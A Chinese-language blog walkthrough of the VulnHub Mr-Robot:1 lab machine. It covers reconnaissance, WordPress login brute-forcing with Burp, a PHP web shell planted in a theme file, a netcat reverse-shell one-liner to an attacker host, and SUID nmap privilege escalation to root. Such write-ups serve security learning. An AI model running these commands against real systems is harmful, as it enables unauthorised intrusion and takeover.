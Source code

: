 ```yaml
---
title: VulnHub | Mr-Robot:1
date: 2021-12-04 15:52:34
cover: https://img.freeaes.com/images/2021/09/05/4.jpg
tags:
- VulnHub
- Web 安全
categories: 学习笔记
---
```


# Mr.Robot
最近在看黑客军团（Mr.Robot），其实说实话我觉得这片还是有点像心理犯罪片，以前看的时候有点看不懂在干啥（也可能智商问题），在逛vulnhub的时候又刚好看到有个以这个命名的靶机，就下载下来玩玩了。
## 项目地址
[http://www.vulnhub.com/entry/mr-robot-1,151/](http://www.vulnhub.com/entry/mr-robot-1,151/)
难度：Low-Medium
## 测试环境
攻击机:Parrot 192.168.56.15 (host-only)
目标靶机:Ubuntu 192.168.56.102 (host-only)


## 信息收集
首先，打开大鹦鹉。使用arp扫描查找目标IP.`arp-scan -I eth1 -l`，使用 `-I/--interface`参数指定网络适配器，逐个查找目标计算机。
![0](https://img.freeaes.com/images/2021/12/03/0.png)
![1](https://img.freeaes.com/images/2021/12/03/1.png)
扫描目标以查看哪些端口打开。`nmap -sS -p- -n 192.168.56.102`
-sS 使用TCP SYN连接扫描。
-p- 扫描全端口
-n 不进行DNS域名解析
扫描后，你可以看到目标开启了80、443端口，22端口显示关闭。在浏览器访问目标网站服务器
![2](https://img.freeaes.com/images/2021/12/03/2.png)
浏览器访问界面看起来像是个Bash，输入几个常用命令，均显示错误，输入`help`命令后，会弹出几个可用的自定义命令，应该只是一个php或静态页面，尝试了一下，没有可以利用的点。
![3](https://img.freeaes.com/images/2021/12/03/3.png)
在访问robots.txt文件时，发现两个敏感文件（fsocity.dic和key-1-of-3.txt）。访问key-1-of-3.txt文件获取到第一个Key。`fsocity.dic`看起来像一个字典文件,先保存下来.
![4](https://img.freeaes.com/images/2021/12/03/4.png)
![5](https://img.freeaes.com/images/2021/12/03/5.png)
![6](https://img.freeaes.com/images/2021/12/03/6.png)

在目录遍历的过程中，我找到一个登录页，访问它，是一个WordPress程序，访问`wp-admin`路径并找到后台登录页。但我没有帐户密码。考虑到先前下载的`fsocity.dic`是一个字典文件，我可以用其进行暴力破解。
![7](https://img.freeaes.com/images/2021/12/03/7.png)
![8](https://img.freeaes.com/images/2021/12/03/8.png)

## 暴力破解
在进行爆破前，我需要知道用户名是什么，我测试了几个常用的用户名，但均显示用户不存在，我觉得用户名应该也存在于刚才的字典内。然后添加变量为`user_login`参数。
首先打开BurpSuite并抓取数据包，将捕获的请求数据包发送到入侵模块。按清除按钮清除默认选择的变量。
![9](https://img.freeaes.com/images/2021/12/03/9.png)
但我发现先前保存的字典有7点多mb大小。我想可能需要清除一些重复的字段。使用'cat fsocity.dic | sort-u>fsocity'命令将重复的检查结果保存到文件fsocity，以看到，执行后的文件大小仅为95k。在Burp中导入字典。根据设备配置设置`resource pool`，然后start attack。
![10](https://img.freeaes.com/images/2021/12/03/10.png)
![11](https://img.freeaes.com/images/2021/12/03/11.png)
![11](https://img.freeaes.com/images/2021/12/03/12.png)
破解后有三个用户名返回的包大小与其他包不一致，查看返回包，可以发现用户名存在，但无法向邮箱发送电子邮件（可能是配置问题），但并不妨碍我们进行下一步行动。
![13](https://img.freeaes.com/images/2021/12/03/13.png)

找到用户名，下一步是爆破密码。返回登录页面并获取包含登录信息的数据包。同样，将其发送到Intrude模块并清除默认变量。这一次，您需要添加两个变量`log`和`pwd`（因为要破解的用户名不是唯一的），并将攻击类型设置为Cluster bomb。将三个刚刚破解的用户名添加到payload1，并将fsocity.dic字典加载到payload2。设置resource pool后，start attack。
![14](https://img.freeaes.com/images/2021/12/03/14.png)
![15](https://img.freeaes.com/images/2021/12/03/15.png)
![16](https://img.freeaes.com/images/2021/12/03/16.png)
![17](https://img.freeaes.com/images/2021/12/03/17.png)
![18](https://img.freeaes.com/images/2021/12/03/18.png)

## 上传Web Shell
暴力破解后，会得到三组用户名和密码（elliot/ER28-0652、elliot/ER28-0652、elliot/ER28-0652）。三组密码都可以成功登录。使用其中一个登录到管理面板。
![19](https://img.freeaes.com/images/2021/12/03/19.png)
![20](https://img.freeaes.com/images/2021/12/03/20.png)

一般WordPress可以在appearance的editor子项中编辑PHP文件。我们可以通过修改404.php来写入WebShell。然后使用AntSwarm连接到WebShell(http://192.168.56.102/wp-content/themes/twentyfifteen/404.php)
![21](https://img.freeaes.com/images/2021/12/03/21.png)
![22](https://img.freeaes.com/images/2021/12/03/22.png)
![23](https://img.freeaes.com/images/2021/12/03/23.png)

在查看网站根目录中的文件时发现了三个可疑文件（License.txt、License.bk、you-will-never-guess-this-file-name.txt）。`License`本身并不可疑，但我不知道它为什么需要备份。
![24](https://img.freeaes.com/images/2021/12/03/24.png)
通过检查文件内容，可以发现`license.bk`和`you will event this file name.txt`并没有什么问题，但文件`license.txt`中有一串经过Base64加密的密文。
![25](https://img.freeaes.com/images/2021/12/03/25.png)

通过使用工具解密，可以看出它只是刚刚爆破出来的WordPress网站的后台账号密码。
![26](https://img.freeaes.com/images/2021/12/03/26.png)

在查看用户的家目录时，我在robot用户的家目录中发现了两个文件。查看第一个文件时，系统将提示您权限不足。使用`ls`命令查看文件的所有者为robot，`Key-2-of-3.txt`只能由robot或root读取，但幸运的是，可以查看第二个文件。
![27](https://img.freeaes.com/images/2021/12/03/27.png)
![28](https://img.freeaes.com/images/2021/12/03/28.png)

查看`password.raw-md5`文件,返回一段字符串。判断它是一串MD5密文。通过网站解密，解密后的密文是`robot/abcdefghijklmnopqrstuvwxyz`，这应该是robot用户的帐户密码（解密时，我使用的第一个网站是`cmd5.com`，但我发现它居然需要付费才能查看。然后我使用了`somd5.com`，幸运的是，它比较良心，并没有向我收费）。
![29](https://img.freeaes.com/images/2021/12/03/29.png)
![30](https://img.freeaes.com/images/2021/12/03/30.png)
![31](https://img.freeaes.com/images/2021/12/03/31.png)

## 生成TTY Shell
现在已经拥有了robot的用户名和密码，可以直接登录到robot用户查看第二个key。但是，在webshell中直接使用`su`命令将返回错误，并且在先前扫描端口时并没有发现目标开启SSH或Telnet服务。所以我需要先创建一个反弹shell。
![32](https://img.freeaes.com/images/2021/12/03/32.png)
在执行过程中，我尝试了几种方法，但都没有成功反弹。最后，我使用了`rm/tmp/f;mkfifo/tmp/f;cat/tmp/f | /bin/bash-i 2>&1 | nc 192.168.56.104 8848>/tmp/f`命令成功执行。在执行该命令之前，您需要在攻击机打开一个终端并输入`nc-lvvp 8848`命令侦听来自目标机器的连接。
![33](https://img.freeaes.com/images/2021/12/04/33.jpg)
![34](https://img.freeaes.com/images/2021/12/03/34.png)

要切换到robot用户，我需要生成一个TTY会话，并使用`python -c 'import pty;pty.spawn("/bin/bash")'`命令生成TTY Shell。然后使用刚刚解密的密码通过`su`命令切换用户，并查看robot家目录下的第二个密钥。
![35](https://img.freeaes.com/images/2021/12/03/35.png)

## 提权

剩下最后一个key，使用`find / -name key-*.txt 2>/dev/null`命令扫描整个系统。但是，由于权限不足，甚至找不到第一个key，考虑提权。
![36](https://img.freeaes.com/images/2021/12/03/36.png)

使用`find / -perm -04000 2>/dev/null`命令在系统中查找具有`suid`权限的文件列表。找到`nmap`命令并查看其版本信息。5.2.0版之前的Nmap具有交互功能，可用于提权。幸运的是，这个版本是3.8.1，符合版本。
![37](https://img.freeaes.com/images/2021/12/03/37.png)
![38](https://img.freeaes.com/images/2021/12/03/38.png)

执行`nmap --interactive`命令进入交互模式并输入`!sh`打开了一个shell。当检查用户的身份时，可以发现它正在以root用户身份运行。
![39](https://img.freeaes.com/images/2021/12/03/39.png)

再次查找，在root目录中找到第三个key。直接查看该文件。
![40](https://img.freeaes.com/images/2021/12/03/40.png)
## Game Over
